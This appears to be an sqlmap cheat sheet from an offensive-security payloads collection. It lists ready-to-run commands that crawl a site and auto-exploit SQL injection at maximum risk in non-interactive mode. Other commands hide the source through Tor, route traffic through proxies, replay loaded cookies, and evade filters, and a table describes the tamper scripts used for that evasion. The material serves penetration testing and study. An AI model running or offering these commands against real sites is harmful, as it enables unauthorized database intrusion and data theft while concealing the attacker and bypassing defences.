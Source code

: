 ### Crawl a website with SQLmap and auto-exploit

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

### Using TOR with SQLmap

```powershell
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

### Using a proxy with SQLmap

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

### Using Chrome cookie and a Proxy

```powershell
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```

### Using suffix to tamper the injection

```powershell
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```


### General tamper option and tamper's list

```powershell
tamper=name_of_the_tamper
```

| Tamper | Description |
| --- | --- |
|0x2char.py | Replaces each (MySQL) 0x<hex> encoded string with equivalent CONCAT(CHAR(),…) counterpart |
|apostrophemask.py | Replaces apostrophe character with its UTF-8 full width counterpart |
|apostrophenullencode.py | Replaces apostrophe character with its illegal double unicode counterpart|
|appendnullbyte.py | Appends encoded NULL byte character at the end of payload |
|base64encode.py | Base64 all characters in a given payload  |
|between.py | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #' |
|bluecoat.py | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator  |
|chardoubleencode.py | Double url-encodes all characters in a given payload (not processing already encoded) |
|charencode.py | URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %53%45%4C%45%43%54) |
|charunicodeencode.py | Unicode-URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %u0053%u0045%u004C%u0045%u0043%u0054) |
|charunicodeescape.py | Unicode-escapes non-encoded characters in a given payload (not processing already encoded) (e.g. SELECT -> \u0053\u0045\u004C\u0045\u0043\u0054) |
|commalesslimit.py | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'|